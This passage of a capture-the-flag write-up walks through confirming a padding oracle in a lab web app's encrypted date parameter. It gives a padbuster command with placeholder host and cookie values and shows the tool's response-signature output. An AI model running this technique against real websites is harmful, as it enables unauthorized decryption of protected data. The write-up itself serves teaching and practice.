 ```
Warning: openssl_decrypt(): IV passed is only 4 bytes long, cipher expects an IV of precisely 8 bytes, padding with \0
```
That's it! I know exactly what vulnerability this is, and I have a special tool just for that!

### Can you hear that? It's an oracle talking! (second flag) {#Can-you-hear-that-Its-an-oracle-talking-second-flag}
The vulnerability I am about to use is called <b>padding oracle</b>, and it abuses the fact that the backend is a little too chatty with the frontend, giving us key information to lockpick that ciphertext. If you wanna learn more about this vulnerability, go check out the last two sections of this writeup. This one will only cover the "how", but still get that espresso ready!

To check if this is actually a padding oracle (and not Nonna's lasagna giving me allucinations) we can use a tool called ```padbuster```, here is the command to use to decrypt the value:
```bash
padbuster "http://[MACHINE_IP]:1337/dashboard.php?date=[ENCRYPTED_VALUE]" "[ENCRYPTED_VALUE]" 8 -encoding 0 -cookies "PHPSESSID=[YOUR_COOKIE]; role=[YOUR_COOKIE]"
```
Note that you can get the cookies by just looking at your browser's network tab or with tools like burp suite. Anyways, here is what padbuster will spit out first:
```
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1349

INFO: Starting PadBuster Decrypt Mode
[+] Number of Blocks: 3

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1324    N/A
2 **    255     400     1411    N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2
```
The fact that padbuster found a response signature means that this is indeed a padding oracle vulnerability! Naturally, since we are exploiting the information the website is giving with its error messages, we want to select the option with the status 400, as that indicates a bad request (i.e. error messages to abuse).
